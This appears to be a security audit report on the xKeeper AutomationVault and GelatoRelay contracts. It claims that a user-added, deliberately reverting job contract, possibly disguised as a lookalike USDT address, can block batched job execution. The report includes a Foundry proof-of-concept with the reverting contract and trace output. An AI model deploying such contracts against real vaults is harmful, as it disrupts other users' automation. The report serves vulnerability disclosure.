 Macho Charcoal Squirrel

high

# Job address and `jobData` i.e to be called selector can be choosed by user which can resust DoS while executing a job in AutomationVault contract

## Summary
As [the video](https://docs.xkeeper.network/media/how-to/gelato_relay/setup.webm) is showing one can choose the job address as his choice it is possible to manipulate the job in such a way so that when the function is called in that Job contract address the function will revert, and if such ExecData is passed with other good ExecDatas then it will cause DoS.

## Vulnerability Detail
As mentioned video in Summary section shows we can add Job address as of our choice, and **other users can use this job address in their vault**. However, lets suppose a job address is returning the decimal of USDT or total supply of USDT and malicious user crafted the USDT contract address by changing few digits, 1 or 2, in the middle of the address so that if someone don't look carefully & check all digits one by one then he mistakenly will add this job in his contract, then it will result a DoS when the GelatoRelay::exec() will be called by many execData, because from GelatoRelay::exec() the call will go to AutomationVault::exec() function where the selector i.e `jobData` in execData will be called, as such USDT contract address does not exist the call will revert therefore all subsequent calls of execData[] will not execute which means Denial Of Service.
I crafted the malicious Job contract like this:
```solidity
contract Job4 {
  uint num = 1;

  function revertIt() public view {
    require(num == 10, 'Reverting due to DoS!');
  }
}
```
It is very simple contract which just reverts, contract with same logic like malfunctioned USDT address can be crafted so that the contract gain credibility.
Here is the POC:
<details>
  <summary>Click me</summary>

Run this test in solidity/test/unit directory:
  
  ```solidity
// SPDX-License-Identifier: AGPL-3.0-only
pragma solidity 0.8.19;

import {Test} from 'forge-std/Test.sol';
import {IERC20} from 'openzeppelin/token/ERC20/IERC20.sol';

import {AutomationVault, IAutomationVault, EnumerableSet} from '../../contracts/core/AutomationVault.sol';
import {GelatoRelay, IGelatoRelay, IAutomate, IGelato} from '../../contracts/relays/GelatoRelay.sol';
import {_NATIVE_TOKEN, _ALL} from '../../utils/Constants.sol';

////  Dummy Jobs
contract Job1 {
  function returnUint() public pure returns (uint) {
    return 1;
  }
}

contract Job2 {
  function returnUint() public pure returns (uint) {
    return 2;
  }
}

contract Job3 {
  function returnUint() public pure returns (uint) {
    return 3;
  }
}

contract Job4 {
  uint num = 1;

  function revertIt() public view {
    require(num == 10, 'Reverting due to DoS!');
  }
}

contract GRDoS is Test {
  GelatoRelay public gelatoRelay;
  AutomationVault public automationVault;
  IAutomate public automate;
  address public gelato;
  address public feeCollector;
  address public owner;
  IAutomationVault.ExecData[] _execData;
  IAutomationVault.JobData[] _jobData;
  address caller;

  Job4 job4;
  Job3 job3;
  Job2 job2;
  Job1 job1;

  function setUp() public {
    job4 = new Job4();
    job3 = new Job3();
    job2 = new Job2();
    job1 = new Job1();
    owner = vm.addr(0x12356);
    vm.deal(owner, 100 ether);
    automationVault = new AutomationVault(address(owner), _NATIVE_TOKEN); // Depolying Automation vault
    automate = IAutomate(makeAddr('Automate'));
    vm.mockCall(address(automate), abi.encodeWithSelector(IAutomate.gelato.selector), abi.encode(gelato));
    vm.mockCall(gelato, abi.encodeWithSelector(IGelato.feeCollector.selector), abi.encode(feeCollector));
    gelatoRelay = new GelatoRelay(automate); // Deploying gelato relay
    address[] memory callers = new address[](1);
    caller = callers[0] = vm.addr(0x456);       // Adding only 1 relayCaller, 1 caller is enough for our test

    IAutomationVault.JobData[] memory jobData = generateJobData();
    vm.prank(owner);    // Owner adding gelato relay to the automationVault with callers[] & jobData[]
    automationVault.addRelay(address(gelatoRelay), callers, jobData);
  }

  function test_DoSWhileExecInGelato(uint _fee, address _feeToken) public {
    vm.assume(address(_feeToken) != address(0));
    vm.assume(_fee == 10);
    vm.mockCall(
      address(automate),
      abi.encodeWithSelector(IAutomate.getFeeDetails.selector),
      abi.encode(_fee, _feeToken)
    );
    generateExecData();
    vm.prank(caller);   // Caller calling the GelatoRelay::exec()
    gelatoRelay.exec(automationVault, _execData);
  }

  ////////////////////////////////    HELPER FUNCTIONS      /////////////////////////////

  function generateExecData() public {
    _execData.push(
      IAutomationVault.ExecData({job: address(job4), jobData: abi.encodeWithSelector(job4.revertIt.selector)})
    );
    _execData.push(
      IAutomationVault.ExecData({job: address(job2), jobData: abi.encodeWithSelector(job2.returnUint.selector)})
    );
    _execData.push(
      IAutomationVault.ExecData({job: address(job3), jobData: abi.encodeWithSelector(job3.returnUint.selector)})
    );
    _execData.push(
      IAutomationVault.ExecData({job: address(job1), jobData: abi.encodeWithSelector(job1.returnUint.selector)})
    );
  }

  function generateJobData() public returns (IAutomationVault.JobData[] memory) {
    bytes4[] memory selectors1 = new bytes4[](1);
    bytes4[] memory selectors2 = new bytes4[](1);
    bytes4[] memory selectors3 = new bytes4[](1);
    bytes4[] memory selectors4 = new bytes4[](1);
    selectors1[0] = job1.returnUint.selector;
    selectors2[0] = job2.returnUint.selector;
    selectors3[0] = job3.returnUint.selector;
    selectors4[0] = job4.revertIt.selector;
    _jobData.push(IAutomationVault.JobData({job: address(job1), functionSelectors: selectors1}));
    _jobData.push(IAutomationVault.JobData({job: address(job2), functionSelectors: selectors2}));
    _jobData.push(IAutomationVault.JobData({job: address(job3), functionSelectors: selectors3}));
    _jobData.push(IAutomationVault.JobData({job: address(job4), functionSelectors: selectors4}));

    return _jobData;
  }
}
```
Run this test using: `forge test --mt test_DoSWhileExecInGelato -vvvv`
### Logs
```solidity
...........
[248397] GRDoS::test_DoSWhileExecInGelato(10, 0x0000000000000000000000000000000000000001)
    ├─ [0] VM::assume(true) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assume(true) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::mockCall(Automate: [0x3D92a403fF55A6407CCAD30410D293F1375b5D10], 0xb810c636, 0x000000000000000000000000000000000000000000000000000000000000000a0000000000000000000000000000000000000000000000000000000000000001)
    │   └─ ← [Return] 
    ├─ [0] VM::prank(0x93BDBe2c9f0F5cec59175C51D0a39fAee42A4a6e)
    │   └─ ← [Return] 
    ├─ [18549] GelatoRelay::exec(AutomationVault: [0xc7183455a4C133Ae270771860664b6B7ec320bB1], [ExecData({ job: 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f, jobData: 0x91755cb7 }), ExecData({ job: 0xF62849F9A0B5Bf2913b396098F7c7019b51A820a, jobData: 0x30bc6db2 }), ExecData({ job: 0x2e234DAe75C793f67A35089C9d99245E1C58470b, jobData: 0x30bc6db2 }), ExecData({ job: 0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9, jobData: 0x30bc6db2 })])
    │   ├─ [0] Automate::getFeeDetails() [staticcall]
    │   │   └─ ← [Return] 10, 0x0000000000000000000000000000000000000001
    │   ├─ [11971] AutomationVault::exec(0x93BDBe2c9f0F5cec59175C51D0a39fAee42A4a6e, [ExecData({ job: 0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f, jobData: 0x91755cb7 }), ExecData({ job: 0xF62849F9A0B5Bf2913b396098F7c7019b51A820a, jobData: 0x30bc6db2 }), ExecData({ job: 0x2e234DAe75C793f67A35089C9d99245E1C58470b, jobData: 0x30bc6db2 }), ExecData({ job: 0x5991A2dF15A8F6A256D3Ec51E99254Cd3fb576A9, jobData: 0x30bc6db2 })], [FeeData({ feeRecipient: 0x0000000000000000000000000000000000000000, feeToken: 0x0000000000000000000000000000000000000001, fee: 10 })])
    │   │   ├─ [2334] Job4::revertIt()
    │   │   │   └─ ← [Revert] revert: Reverting due to DoS!
    │   │   └─ ← [Revert] AutomationVault_ExecFailed()
    │   └─ ← [Revert] AutomationVault_ExecFailed()
    └─ ← [Revert] AutomationVault_ExecFailed()
```
As you can see, the revert reason is : `revert: Reverting due to DoS!` means our malicious job contract is responsible for this revert.
</details>

## Impact
DoS, all subsequent functionSelectors in jobData[] will not be called.

## Code Snippet
1. https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/core/AutomationVault.sol#L411-L417
2. https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/GelatoRelay.sol#L37
## Tool used

Manual Review, Foundry

## Recommendation
Don't accept arbitrary job contract address.